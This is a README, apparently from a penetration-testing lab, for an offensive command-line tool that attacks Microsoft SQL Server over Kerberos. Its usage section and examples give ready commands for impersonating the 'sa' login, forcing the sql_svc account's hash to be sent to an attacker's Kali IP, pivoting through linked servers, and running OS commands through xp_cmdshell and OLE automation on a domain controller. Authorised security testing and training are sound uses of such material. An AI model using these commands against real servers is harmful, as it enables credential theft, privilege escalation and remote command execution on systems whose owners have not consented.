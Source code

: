 # MSSQL Tool

This tool uses Kerberos to establish a connection with the database. The tool enables the enumeration of permissions, execution of SQL queries on the database, and execution of system commands on the server

## Usage

```
MSSQL.exe <SQLServer> <Database> <Operation> [/impersonate <user>]
```

## Operations

- `enum` - Perform SQL enumeration.
- `query <query>` - Execute a custom SQL query.
- `gethash <kali_ip>` - Obtain **sql_svc** hash.
- `linked <server> <query>` - Execute a SQL query on a linked server.
- `xp_cmdshell <cmd>` - Execute an OS command.
- `xp_cmdshell_linked <server> <cmd>` - Execute an OS command on a linked server.
- `ole_cmd <cmd>` - Execute an OS command using OLE.

## Examples

#### Perform SQL enumeration (checking the current user, checking roles, checking impersonation possibilities, checking linked servers)
```
MSSQL.exe dc01.corp1.com master enum
```

#### Execute a custom SQL query with impersonation
```
MSSQL.exe dc01.corp1.com master query "SELECT * FROM Users" /impersonate sa
```
#### Obtain sql_svc hash
```
MSSQL.exe dc01.corp1.com master gethash 192.168.45.228
```
#### Execute a query on a linked server with impersonation
```
MSSQL.exe dc01.corp1.com master linked "DC01" "SELECT SYSTEM_USER" /impersonate sa
```
#### Execute an OS command using xp_cmdshell with impersonation
```
MSSQL.exe dc01.corp1.com master xp_cmdshell "whoami" /impersonate sa
```
#### Execute an OS command on a linked server using xp_cmdshell with impersonation
```
MSSQL.exe dc01.corp1.com master xp_cmdshell_linked "DC01" "whoami" /impersonate sa
```
#### Execute an OS command using OLE with impersonation
```
MSSQL.exe dc01.corp1.com master ole_cmd "whoami" /impersonate sa
```